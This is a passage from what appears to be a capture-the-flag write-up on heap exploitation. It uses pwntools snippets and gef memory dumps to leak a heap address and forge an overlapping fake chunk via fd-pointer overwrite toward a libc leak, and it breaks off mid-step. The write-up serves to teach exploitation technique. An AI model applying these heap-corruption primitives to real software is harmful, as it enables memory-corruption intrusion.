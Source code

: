 ```py  
heap_leak = show(0)[1:7]  
heap_leak = u64(heap_leak+b"\x00\x00")  
log.info(f"HEAP:  {hex(heap_leak)}")  
```

### LIBC Leak

Now, we have the heap leak, so we could craft an overlapping chunk such that
creating a fake chunk making it look like a chunk that will belong to the
smallbin once `free`'d. This sounds a bit intimidating but it is not, if you
figure out the pattern. I'll try my best to simplify:-

We will first, reuqest for `chunk[0]`, this will give us the ability to
overwrite the `fd` of the `chunk[0]` such that the it will be returned in th
next allocation request from the same bin.

Let's see for now:-

```py  
malloc(0,0x40,p64(heap_leak-0x10)+p64(0x0)*6+p64(0x51))  
```

We will get the `chunk[0]`, now we make the `fd` of it pointing to the
`chunk[1] - 0x10` and continue to fill the buffer such that the memory content
of the heap looks like:-

```r  
gef➤  x/40xg 0x55a76febb060 - 0x60  
0x55a76febb000: 0x0000000000000000      0x0000000000000051  <--  chunk[0]  
0x55a76febb010: 0x000055a76febb040      0x0000000000000000  
0x55a76febb020: 0x0000000000000000      0x0000000000000000  
0x55a76febb030: 0x0000000000000000      0x0000000000000000  
0x55a76febb040: 0x0000000000000000      0x0000000000000051  <--  fake_chunk  
0x55a76febb050: 0x0000000000000000      0x0000000000000051  <--  chunk[1]  
0x55a76febb060: 0x000055a76febb000      0x0000000000000000  
0x55a76febb070: 0x0000000000000000      0x0000000000000000  
```

> The pointers pointed by the bin head would point directly to `chunk + 0x10`
> i.e. from the `fd`.  
Now, we will just go on with getting the chunks and work usually:-

```py  
malloc(1,0x40,b"A")  
malloc(5,0x40,b"B")  
```

Now, for next allocation, we will get the `0x55...40` because what was the
value of the `fd` of the `chunk[1]`. Now, since we created a `chunk[1]` with
the size to be pointed at that, we will be able to tamper the `chunk[1]`
metadata.

```py  
malloc(6,0x40,p64(0x0)+p64(0xf1))  
```

Doing so:-
